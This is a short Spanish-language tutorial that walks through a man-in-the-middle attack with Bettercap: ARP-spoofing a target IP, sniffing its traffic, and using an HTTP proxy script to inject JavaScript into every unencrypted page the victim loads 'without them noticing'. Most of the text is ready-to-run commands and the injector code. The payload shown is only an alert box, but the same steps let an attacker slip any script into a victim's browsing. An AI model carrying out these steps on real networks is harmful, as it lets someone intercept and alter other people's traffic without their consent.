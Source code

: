 ### 🔥 Ejemplo práctico: Inyectar un script malicioso en tiempo real

#### 🎯 Objetivo:

Cuando la víctima visite cualquier sitio web, **inyectar un script falso** (ej: alerta JavaScript) sin que lo note.

---

#### ✅ Paso 1: Inicia Bettercap

```bash
sudo bettercap -iface eth0
```

> Reemplaza `eth0` con tu interfaz real (`ip a` para verificar).

---

#### ✅ Paso 2: Inicia ataque MITM y sniffing

En la consola interactiva de Bettercap, escribe:

```bash
net.probe on
set arp.spoof.targets 192.168.1.20
arp.spoof on
net.sniff on
```

Esto:

- Te posiciona entre la víctima y el router.
- Comienzas a espiar y controlar el tráfico.

---

#### ✅ Paso 3: Inyectar JavaScript en tiempo real

```bash
set http.proxy.script js_injector
http.proxy on
```

Ahora, en el archivo `~/.bettercap/caplets/js_injector.js` escribe:

```javascript
function onRequest(req, res) {
  res.body = res.body.replace(
    /<\/body>/g,
    "<script>alert('¡Has sido hackeado!');</script></body>"
  );
}
```

Esto hace que, al cargar cualquier sitio web sin HTTPS, se inyecte una alerta JavaScript.

---